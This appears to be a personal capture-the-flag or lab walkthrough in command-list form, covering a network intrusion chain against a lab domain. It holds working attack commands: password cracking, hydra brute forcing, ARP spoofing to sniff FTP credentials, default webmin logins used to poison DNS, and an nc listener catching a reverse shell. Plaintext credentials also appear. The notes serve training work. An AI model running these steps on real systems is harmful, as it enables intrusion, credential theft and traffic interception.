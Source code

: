 1. dnsenum yolo.co.il
2. gobuster vhost -w /rockyou.txt -u yolo.co.il  
   ffuf -w  /usr/share/dirb/wordlists/common.txt -u http://admin.yolo.co.il/FUZZ    #(two ways for subdomain enumeration)
3. dirb  http://admin.yolo.co.il/ -w
4. http://admin.yolo.co.il/backup/ (the directory found in privious steps)
5. john shadow --format=crypt (inside backup directory which we download from the url in privious step ther's a shado file, and john crack the password from the hash there)
6. nmap -p- --min-rate 100 -sV 10.1.22.122 (10.1.0.122 is my yolo ip, i check what ports are open and found port 2222)
7. ssh dexter@10.1.22.122 -p 2222
put the password that john found "iloveyou1"

#####       found a flag!!!     #####

8. sudo hydra -l admin -P ./rockyou.txt -f admin.yolo.co.il -s 80 http-post-form "/?:username=^USER^&pswrd=^PASS^:F=<form action="">"    #brute forceing, we got result but it's not working.
9. hydra ssh syntax: hydra -l shlomke -P /usr/share/wordlists/rockyou.txt ssh://10.10.55.37 -V
10. ssh to admin with the found password fails
11. nmap -p0-65535 192.168.2.0/24 (scan dexter's network)
12. telnet 192.168.2.3 10000   #connect to the dns server (not sure what to to with it)
13. sudo dig axfr @192.168.2.3
14. curl http://192.168.2.3:10000
15. wget https://c4705d283d7e:10000 --no-check-certificate
16. wget https://c4705d283d7e//images/favicons/webmin/apple-touch-icon.png:10000 --no-check-certificate  (#download a file, not sure what to do with it.)
17. apt install dsniff  (For sniffing passwords from plaintext protocols like ftp, and for arpspoofing)
18. sudo arpspoof -i eth0 -t 192.168.2.254 192.168.2.8  #arp spoffing to tell the router that i'm the ftp server.
19. sudo tcpdump dst 192.168.2.8  #listen to the traffic to the ftp server. (which the router send to me now because of the spoofing)
20. we found username and password! ftp_yolo  CyberSec@12 
21. ftp ftp.yolo.co.il # and put the details of the user.
22. get flag2.txt   (download the file)

######       found another flag!!!     ######

22. nmap -p0-5000 10.1.22.122
23. scp -P 2222 ftp_server.py dexter@10.1.22.122:/home/dexter    (#ftp server file)
24. scp -P 2222 clock_update.sh dexter@10.1.22.122:/home/dexter  (#the reverse shell file)
### connect to webmin page in order to change the dns record so i can get the request from the client and send him the reverse shell file:
25. ssh -L 8082:192.168.2.3:10000 -p 2222 dexter@10.1.22.122 #create a proxy to connect to the dns server with port 10000
26. in the URL: https://localhost:8082
27. put the default logins to the webmin: user - root, password - password
28. change the record for the ftp server to our address 192.168.2.2
28. check that you made it right: dig ftp.yolo.co.il
29. run ftp_server.py
30. listen with nc: nc -l 32340
31. we got reverse shell on the user. ls - and ther's the 3rd flag.

########################################################################################################################################################################
															more pentest stuff with nmap:
1. git clone https://github.com/vulnersCom/nmap-vulners.git
2. cd /usr/share/nmap/scripts/
3. nmap -sV --script nmap-vulners/ 151.101.131.5 -p 80
4. nmap -sV --script nmap-vulners/ 151.101.131.5

########################################################################################################
															usefull stuff
1. kill a process that use specific port: sudo kill -9 `sudo lsof -t -i:9001`





